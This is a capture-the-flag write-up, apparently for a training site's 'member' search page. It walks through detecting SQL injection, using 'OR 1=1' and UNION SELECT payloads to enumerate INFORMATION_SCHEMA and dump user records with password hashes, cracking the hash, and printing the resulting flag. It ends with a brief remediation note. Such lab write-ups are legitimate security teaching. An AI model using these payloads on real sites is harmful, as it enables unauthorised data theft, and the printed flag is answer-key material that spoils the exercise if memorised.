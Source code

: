 
# SQL Injection - Member

## Context summary
The section of the site provides us with a member search tool, we can suppose to enter a number or string which serves as a unique identifier.

## Vulnerability
This site is seriously vulnerable to SQL injections.

## Attack Design

### How to detect SQL injection vulnerabilities ?
We can try a very basic test, which is to insert a quote in the input.

`http://[IP_ADDR]/?page=member&id=123&Submit=Submit#`
```sql
SELECT something, random FROM users WHERE id = 123
```

If in this case you replace **123** input with a `'`, it will give you a syntax error because of the impair number of quotes, and in this case you can conclude that you can inject SQL.

`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1`

Meaning that the query become something like that :

```sql
SELECT something, random FROM users WHERE id = '
```

###  SQL Injection Based on 1=1 is Always True

```sql
# Always true
OR 1=1;
```
```sql
SELECT something, random FROM users WHERE id = 123 OR 1=1;
```

You will quickly understand, if in the input we now put **`1 OR 1=1;`** , we will return all the selected columns.
We get some data, but not that interesting, so we'll send a query on a much larger scale using **UNION**.

###  SQL Injection Attack Based on UNION

The **`UNION`** operator is used to combine the result-set of two or more **`SELECT`** statements.

- Every **`SELECT`** statement within **`UNION`** must have the same number of columns
- The columns must also have similar data types
- The columns in every **`SELECT`** statement must also be in the same order

To respect the first condition we will do a series of tests manually, we have to determine how many columns are being returned from the original query.
```sql
UNION SELECT NULL--
UNION SELECT NULL, NULL--
UNION SELECT NULL, NULL, NULL--
```
In our case it will be two columns.


To carry out a query on a larger scale I chose the [INFORMATION_SCHEMA.COLUMNS](https://www.mssqltips.com/sqlservertutorial/183/information-schema-columns/)

```sql
SELECT something, random FROM users WHERE id = 123 OR 1=1
UNION
SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
```

Now we can see that in the return of this query, we have at the very end some interesting data which is linked to the user table, in order to read everything at once, we can use a SQL Function **`CONCAT()`**.

```sql
SELECT something, random FROM users WHERE id = 123 OR 1=1
UNION
SELECT user_id, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
```

Now we still have a certain password to decipher
```
5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
```

`5ff9d0165b4f92b14994e5c685cdce28` : **FortyTwo**. (was MD5).  
**FortyTwo** -> **fortytwo** -> `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

## Remediation
The following security measures are the most effective way to prevent SQL injection attacks: Using prepared statements and parameterized queries.

> Flag : `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`
